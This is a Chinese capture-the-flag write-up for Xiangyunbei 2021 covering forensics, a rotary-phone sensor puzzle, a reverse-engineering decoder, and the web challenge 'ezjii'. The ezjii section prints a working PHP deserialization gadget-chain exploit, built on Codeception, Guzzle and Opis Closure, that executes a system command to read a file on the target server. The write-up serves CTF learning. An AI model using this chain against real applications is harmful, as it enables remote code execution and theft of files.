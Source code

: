 # 祥云杯2021
## Frankss 包含以下内容： 
MISC:
- 层层取证 82pt
- ChieftainsSecret  107pt

WEB:
- ezjii  52pt

REVERSE:
- dizzy  97pt

### 层层取证：
FTK挂载镜像可以在temp目录下找到三个（两个用户xiaoming有两个，xinsai有一个）wireshark包，梓涵找到了其中装flag的压缩包，注释得知密码是开机密码  
用Volatility导出开机的哈希92efa7f9f2740956d51157f46521f941，cmd5查到密码是xiaoming_handsome  
进程列表里有记事本，而且是两个窗口，用Volatility dump出  
gimp分析：大幅度调整偏移来切换画面，滚动宽来找到正确的分辨率 宽高不超过分辨率，但可能很小。如果找到一片比较白的画面，很有可能能得到意义的用户画面，之后小幅度调整便宜可以横向移动  
用gimp分析Volatility得到的dmp文件，首先在884的宽下看到写有hint的txt，之后又找到便笺的图片，可以导出StickyNotes.snt获取hint  
继续找可以直接看到记录word文档密码的进程图片，写有：xiaoming1314(看的眼睛疼)，打开加密的doc得到flag。

### ChieftainsSecret
binwalk一把梭到csv和diagram图  
在github搜索tle5501，可以找到一些处理tle5501数据的代码（注释万岁），python的那份气压表的仔细看型号并不是题目给出的型号，在另一个仓库MikroElektronika/mikrosdk_click_v2 中找到了处理数据的函数
```cpp
void tmrangle_calculate_diff ( tmrangle_t* ctx )
{
    ctx->sensor_data.diff_y = ( int16_t )ctx->sensor_data.sin_p - ( int16_t )ctx->sensor_data.sin_n;
    ctx->sensor_data.diff_x = ( int16_t )ctx->sensor_data.cos_p - ( int16_t )ctx->sensor_data.cos_n;
    ctx->sensor_data.uncalibrated_angle = atan2( ( float )ctx->sensor_data.diff_y, ( float )ctx->sensor_data.diff_x );
}
```
如上计算即可得到uncalibrated_angle，用excel把角度的图像画出来，把超出180度的处理一下就可以得到角度变化的曲线  
转盘电话是将手指放在指定数字的洞里，顺时针转到挡片处，同时可以看到第一个数字距离挡片有三格的宽度，又因为只有11个峰所以不会有\*和#，所以以[/,/,/,1,2,3,4,5,6,7,8,9,0]平分最低到最高的角度，就可以得到11位flag。  

### ezjii
谷歌用提供的几个类（RunProcess DefaultGenerator Stream）做关键词搜索就能找到合适的链子。  
在https://github.com/JinYiTong/poc 找到可用的链子  
```php
<?php
namespace Codeception\Extension{
    use Faker\DefaultGenerator;
    use GuzzleHttp\Psr7\AppendStream;
    class  RunProcess{
        protected $output;
        private $processes = [];
        public function __construct(){
            $this->processes[]=new DefaultGenerator(new AppendStream());
            $this->output=new DefaultGenerator('jiang');
        }
    }
    echo base64_encode(serialize(new RunProcess()));
}

namespace Faker{
    class DefaultGenerator
    {
        protected $default;

        public function __construct($default = null)
        {
            $this->default = $default;
        }
    }
}
namespace GuzzleHttp\Psr7{
    use Faker\DefaultGenerator;
    final class AppendStream{
        private $streams = [];
        private $seekable = true;
        public function __construct(){
            $this->streams[]=new CachingStream();
        }
    }
    final class CachingStream{
        private $remoteStream;
        public function __construct(){
            $this->remoteStream=new DefaultGenerator(false);
            $this->stream=new  PumpStream();
        }
    }
    final class PumpStream{
        private $source;
        private $size=-10;
        private $buffer;
        public function __construct(){
            $this->buffer=new DefaultGenerator('j');
            include("closure/autoload.php");
            $a = function(){system('cat /flag.txt');	};
            $a = \Opis\Closure\serialize($a);
            $b = unserialize($a);
            $this->source=$b;
        }
    }
}
```
post上去拿到flag

### dizzy
ida看到加密的流程是将flag以byte为单位进行一系列相互或者和常数的加减亦或，因此每一步操作都是可逆的，但是这个过程angr好像不能直接逆向求出来。所以尝试自己把过程逆一边，但是不知道怎么让python按照c的byte计算&溢出规律执行，所以用pthon把计算转换成c代码 
```python
data=[0x27,0x3c,0xe3,0xfc,46,65,7,94,98,-49,-24,-14,-110,0x80,-30,54,-76,-78,103,119,15,-10,13,-74,-19,28,101,-118,7,83,-90,102]
# data是最后的比较数组
s="" # s是ida逆向到c的一长串连续+= -= ^=操作，去掉中间的test部分直接复制过来
op=s.split("\n")
f=open("r.cpp","w")
for i in range(len(op)-1,-1,-1):
    a,c,b=op[i].split(" ")
    a=int(a.split("[")[1].split("]")[0]) # re
    if '[' in b:
        b=int(b.split("[")[1].split("]")[0])
        if c=="+=":
            f.write("data[{}]=data[{}]-data[{}];\n".format(a,a,b))
        elif c=="-=":
            f.write("data[{}]=data[{}]+data[{}];\n".format(a,a,b))
        elif c=="^=":
            f.write("data[{}]=data[{}]^data[{}];\n".format(a,a,b))
    else:
        if '0x' in b:
            b=int(b,16)
        else:
            b=int(b)
        if c=="+=":
            f.write("data[{}]=data[{}]-{};\n".format(a,a,b))
        elif c=="-=":
            f.write("data[{}]=data[{}]+{};\n".format(a,a,b))
        elif c=="^=":
            f.write("data[{}]=data[{}]^{};\n".format(a,a,b))
```
把方法写全输出最后的data，编译执行得到flag